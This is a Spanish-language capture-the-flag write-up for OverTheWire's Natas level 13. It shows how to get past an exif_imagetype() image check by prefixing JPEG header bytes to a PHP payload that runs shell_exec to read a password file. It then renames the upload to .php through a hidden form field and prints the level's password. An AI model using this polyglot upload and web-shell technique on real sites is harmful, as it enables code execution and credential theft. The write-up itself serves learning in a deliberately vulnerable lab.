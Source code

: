 ```yaml
---
title: Natas-13
published: true
---
```


En este reto, comprueba si el fichero que se sube es una imagen.jpg. Para ello utiliza la función exif_imagetype() , dicha función comprueba si la cabecera del fichero es una imagen. 
Para saltarnos este obstaculo, podemos modificar el fichero fuente de una imagen, dejar la primera linea y le insertamos codigo php de la siguiente manera:

```
ÿØÿà JFIF  ` `  ÿÛ C
<?php $output = shell_exec('cat /etc/natas_webpass/natas14'); var_dump($output); ?>
```

Si guardamos la modificación y subimos la imagen, no ejecutara el codigo php ya que el codigo fuente lo guardara en un formato jpg.
Para poder subir el fichero en un formato php, modificamos el codigo fuente html en el campo value asi:

```html
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="tzp8ecx2ff.jpg" /> <!-- modificamos la extension a tzp8ecx2ff.php -->
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

La salida al subir "la imagen"

```html
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

The file <a href="upload/9ro0m0gtb6.php">upload/9ro0m0gtb6.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Como podemos ver, ha subido la imagen en formato php, si hacemos clic en el enlace nos ejecutará el código php que hemos insertado en el fichero que hemos subido.

```
����JFIF``��C   string(33) "Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 " 
```


```    
natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```

[Volver al archivo](archive)
